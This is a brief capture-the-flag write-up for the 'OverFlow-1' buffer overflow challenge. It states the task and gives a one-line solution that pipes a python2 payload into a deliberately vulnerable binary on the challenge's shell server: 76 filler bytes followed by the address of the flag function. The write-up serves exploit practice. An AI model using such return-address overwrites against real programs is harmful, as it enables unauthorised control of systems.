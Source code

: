 # OverFlow-1  

## Summary

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780 on the shell server. Source.

## Solution

cd /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780; python2 -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln


